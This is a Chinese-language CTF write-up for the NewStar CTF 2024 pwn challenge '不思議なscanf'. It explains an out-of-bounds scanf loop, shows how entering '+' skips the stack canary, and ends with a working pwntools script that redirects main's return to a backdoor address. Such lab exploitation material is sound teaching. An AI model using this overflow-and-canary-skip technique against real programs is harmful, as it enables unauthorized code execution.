 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# 不思議なscanf

```c
int __fastcall main(int argc, const char **argv, const char**envp)
{
  int v3; // eax
  int i; // [rsp+Ch] [rbp-24h]
  _DWORD v6[6]; // [rsp+10h] [rbp-20h] BYREF
  unsigned__int64 v7; // [rsp+28h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  initial(argc, argv, envp);
  puts(aGgggggggggeeee);
  for ( i = 0; i <= 15; ++i )
  {
    printf(format);
    v3 = i;
    __isoc99_scanf(&unk_4047FA, &v6[v3]);
  }
  puts("銉愩偆銉愩偆");
  return 0;
}
```

程序定义了一个 int 类型的数组，并利用 for 循环用 scanf 向数组读入内容

但是 for 循环的次数是 16 次，已经超出了数组定义的范围，造成了数组越界

所以我们最终的目的就是利用这个数组越界修改 `main` 函数的返回地址

![查看保护](/assets/images/wp/2024/week3/scanf_1.png)

![查看汇编](/assets/images/wp/2024/week3/scanf_2.png)

:::tip
`scanf` 时使用的参数 `%d`：

正常输入时，输入为范围在 $[-2^{31}, 2^{32}-1]$ 内的整数。

如果输入范围在 $[-2^{63}, 2^{63}-1]$ 内的整数，则会截断高位读取，此范围是 `long long int` 的范围。

如果输入范围在 `long long int` 范围之外，则统一将参数赋值为 $-1$（0xFFFFFFFF）。

如果输入为非数字，分为下列情况：

1. 如果输入仅有一个，则该输入无效，该值不变；
2. 如果输入有数字前缀<span data-desc>（如 `12345abcd`）</span>，则 `scanf` 仅会读取前面的数字，从第一个非数字开始，后面全部舍弃<span data-desc>（`12345`）</span>；
3. 如果输入有多个且使用一个 `scanf` 语句<span data-desc>（如 `scanf("%d, %d", &a, &b)`）</span>，输入第一个非数字后，后面的所有输入均为无效，前面的输入可以赋值；
4. 如果输入有多个且使用多个 `scanf` 语句<span data-desc>（含循环，即一个 `scanf` 中仅有一个输入）</span>，则输入非数字时，如果输入的不是 `+` 或 `-`，则后面紧跟的所有 `scanf` 均自动跳过，变为无效，不能输入。如果输入的 `+` 或 `-`，则会跳过当前输入，后面仍然可以进行输入。

—— 摘抄自：[以 Pwn 视角看待 C 函数 —— scanf](https://blog.csdn.net/qq_54218833/article/details/121308367)
:::

这里我们需要利用 `scanf` 多次输入的特性，通过输入字符 `+` 来跳过对 Canary 的修改，进而直接修改返回地址为后门地址。

```python
#!/usr/bin/env python3
from pwn import *

context(log_level='debug', arch='amd64', os='linux')

s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
r = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)

p = process('./pwn')
elf = ELF('./pwn')

for _ in range(10):
    ru('わたし、気になります！')
    sl(b'+')

ru('わたし、気になります！')
sl(str(0x401240))
ru('わたし、気になります！')
sl(str(0))

for _ in range(4):
    ru('わたし、気になります！')
    sl(b'+')

p.interactive()
```
